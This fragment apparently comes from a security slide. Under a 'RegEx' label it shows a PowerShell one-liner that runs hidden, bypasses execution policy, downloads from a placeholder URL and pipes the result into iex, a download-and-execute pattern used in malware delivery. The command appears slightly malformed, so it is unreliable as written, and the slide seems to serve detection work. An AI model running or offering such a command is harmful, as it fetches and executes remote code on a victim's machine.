

RegEx :
-w hidden -nop -ep bypass (New-Object System.Net.WebClient).DownloadFile
('http://[URL].asp') | iex
# AUGUST